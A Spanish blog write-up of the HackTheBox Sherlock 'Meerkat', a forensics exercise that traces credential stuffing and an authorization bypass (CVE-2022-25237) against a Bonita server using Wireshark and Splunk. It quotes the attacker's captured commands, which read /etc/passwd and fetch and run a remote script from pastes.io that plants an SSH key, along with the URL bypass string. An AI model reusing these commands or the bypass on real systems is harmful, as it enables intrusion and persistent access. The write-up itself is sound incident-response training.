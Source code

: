 ```yaml
---
title: Meerkat
date: 2023-11-17 18:00:00 +/-TTTT
categories: [Threat Intel]
tags: [fácil, splunk, wireshark, threatintel, blue team]     # TAG names should always be lowercase
img_path: /assets/SHERESOURCES/MEERKAT/
image: test.png
---
```


> Este es un reto de la sección Sherlocks en [HackTheBox](https://app.hackthebox.com/).
{: .prompt-tip}

## Escenario Sherlock

Como una startup de rápido crecimiento, Forela ha estado utilizando una plataforma de gestión empresarial. Por desgracia, nuestra documentación es escasa y nuestros administradores no son los más concienciados en materia de seguridad.

Como nuestro nuevo proveedor de seguridad, nos gustaría que echaras un vistazo a algunos PCAP y logs que hemos exportado para confirmar si hemos sido (o no) comprometidos.

## Recursos

![](Pasted image 20231117150146.png)

## Tareas

### Tarea 1 - Creemos que nuestro servidor de la Plataforma de Gestión Empresarial ha sido comprometido. Por favor, ¿Puedes confirmar el nombre de la aplicación que se está ejecutando?

Primero abrimos la captura PCAP con Wireshark y filtramos por el protocolo HTTP en la barra de filtros `http`.
![](Pasted image 20231117150557.png)

En los primeros paquetes tenemos mucha información valiosa:
* La comunicación entre `156.146.62.213` y `172.31.6.44`
* La petición a la URL `/bonita/portal/homepage`
* Respuestas del servidor con un **código 401 (Unauthorized)**, que sugiere que el "atacante" (aún no estamos seguros) trató de autenticarse repetidas veces, sin éxito.

> Si buscamos por Google vemos el nombre de la aplicación que se está ejecutando.
{: .prompt-tip}

![](Pasted image 20231117151008.png)

### Tarea 2 - Creemos que el atacante puede haber utilizado una sub-técnica de la categoría Brute Force. ¿Cuál es el nombre del ataque realizado?

Revisando el framework MITRE ATT&CK, vemos que la Técnica **Brute Force** se divide en cuatro sub-técnicas.
![](Pasted image 20231117151830.png)

**Password Guessing:**
Adversarios sin conocimiento previo de las credenciales legítimas dentro del sistema o entorno pueden adivinar las contraseñas para intentar acceder a cuentas.

**Password Cracking:**
Adversarios pueden utilizar el cracking de contraseñas para intentar recuperar credenciales utilizables, como contraseñas en texto plano o cuando se obtiene material de credenciales como hashes de contraseñas.

**Password Spraying:**
Adversarios pueden utilizar una sola contraseña o una pequeña lista de contraseñas de uso común en muchas cuentas diferentes para intentar obtener credenciales válidas.

**Credential Stuffing:**
Adversarios pueden utilizar credenciales obtenidas de filtraciones/brechas de seguridad para acceder a la organización víctima.

Por lo que tenemos que investigar cuál de ellas empleó el atacante a la hora de intentar pasar el login de `BonitaSoft`

Como queremos buscar por intentos de login fallidos, podemos filtrar por `http.request.method == POST` e investigar los paquetes enviados.
![](Pasted image 20231117160412.png)

Dentro de las peticiones vemos que el atacante intentó acceder utilizando credenciales existentes de la organización, por lo que realizó un **Credential Stuffing**

### Tarea 3 - ¿La vulnerabilidad explotada tiene asignado un CVE y de ser así, cúal?

Como además del archivo **PCAP** tenemos un archivo de **alertas** en formato JSON, podemos subir el archivo a nuestro software/SIEM favorito. En este caso utilizaré **Splunk**.

![](Pasted image 20231117163216.png)

Y tenemos un total de **789 eventos registrados**, de entre los cuales se encuentra una alerta con el campo `alert.metadata.cve{}`, que nos indica el **CVE** de la vulnerabilidad explotada.
![](Pasted image 20231117163314.png)

Además podemos ver que la IP que utilizó el atacante para el **Credential Stuffing** es diferente de esta, `138.199.59.221`

![](Pasted image 20231117165007.png)

> Investigando el **CVE** nos encontramos con que **Bonita Web 2021.2** se ve afectada por una **vulnerabilidad de evasión de autenticación/autorización** debido a un patrón de exclusión demasiado amplio utilizado en *RestAPIAuthorizationFilter*.
{: .prompt-tip}

Al añadir `;i18ntranslation` o `/../i18ntranslation/` al final de una URL, los usuarios sin privilegios pueden acceder a puntos finales de API privilegiados. Esto puede llevar a la **ejecución remota de código** abusando de las acciones privilegiadas de la API.

![](Pasted image 20231117163628.png)

### Tarea 4 - ¿Qué cadena se añadió a la ruta URL de la API para evitar el filtro de autorización mediante el exploit del atacante?

Como realizó una petición a la API podemos regresar a nuestra captura en Wireshark y filtrar por los campos `http && ip.src_host == 138.199.59.221 `
![](Pasted image 20231117165250.png)

En los primeros paquetes nos aparece la cadena que utilizó para evitar el filtro de autorización, `i18ntranslation`

### Tarea 5 - ¿Cuántas combinaciones de usuario/contraseña fueron utilizadas en el ataque Credential Stuffing?

Podemos filtrar por `ip.src == 156.146.62.213 && http.request.method == POST` para ver todas las peticiones donde se introdujo un usuario y contraseña en el login.

![](Pasted image 20231117170530.png)

Nos reporta 114 paquetes, pero tenemos que descontar aquellos que contienen los campos `install:install`.

![](Pasted image 20231117170622.png)

Como se encuentran de forma intercalada, podemos dividir los 114/2 y nos da 57 paquetes. Solo nos queda restar el paquete que contiene el protocolo HTTP/JSON para que nos dé el total de credenciales utilizadas en el ataque, `56`.

![](Pasted image 20231117170940.png)

### Tarea 6 - ¿Qué combinación de usuario y contraseña fue exitosa?

Como ya sabemos que el atacante/grupo empleó dos IP diferentes, una para realizar el **Credential Stuffing** `156.146.62.213` y otra para explotar la vulnerabilidad CVE-2022-25237 `138.199.59.221`, podemos filtrar por `http && ip.src == 138.199.59.221`

![](Pasted image 20231117171550.png)
Vemos que la primera credencial que utilizó para explotar la vulnerabilidad fue `seb.broom@forela.co.uk:g0vernm3nt`

### Tarea 7 - Si lo hubiera, ¿Qué sitio de intercambio de texto utilizó el atacante?

Si filtramos por `ip.src == 138.199.59.221 && http.request.method == GET`, para ver las peticiones GET que realizó el atacante nos encontramos con tres comandos ejecutados gracias a la vulnerabilidad en Bonita Web, entre ellos una petición a `pastes.io`.

![](Pasted image 20231117172556.png)

* cat /etc/passwd
* **wget https://pastes.io/raw/bx5gcr0et8**
* bash bx5gcr0et8

### Tarea 8 - Por favor, proporciona el hash del archivo del script utilizado por el atacante para obtener acceso persistente a nuestro host.

Si vemos lo que contiene la URL, nos encontramos con un script en Bash, que descarga otro archivo, lo agrega al final de `authorized_keys` y luego reinicia el servicio SSH, por lo que seguramente se trate de una clave pública.

![](Pasted image 20231117174341.png)

Podemos descargar el archivo (en un entorno virtualizado) con:
```bash
certutil -urlcache -f https://pastes.io/raw/bx5gcr0et8
```
y realizar un `Get-FileHash` con PowerShell:
```powershell
Get-FileHash -Algorithm MD5 bx5gcr0et8
```
![](Pasted image 20231117180635.png)

### Tarea 9 - Por favor, proporciona el hash del archivo de la clave pública utilizada por el atacante para obtener persistencia en nuestro host.

Empleando el mismo método, podemos ver que contiene la URL del primer script, logrando ver la **clave pública del atacante**.

Podemos descargarla de la misma manera que hicimos y obtener el hash MD5.
![](Pasted image 20231117181253.png)
![](Pasted image 20231117181432.png)

### Tarea 10 - ¿Puedes confirmar el archivo modificado por el atacante para ganar persistencia?

En el script se puede observar que almacena el archivo en `/home/ubuntu/.ssh/authorized_keys`

### Tarea 11 - ¿Puedes confirmar el ID de la técnica MITRE de este tipo de mecanismo de persistencia?

Viendo el framework MITRE ATT&CK dentro la táctica **Persistence**, y la técnica **Account Manipulation**, podemos ver la sub-técnica **SSH Authorized Keys** con el ID de `T1098.004`
![](Pasted image 20231117182330.png)

![](Pasted image 20231117182805.png)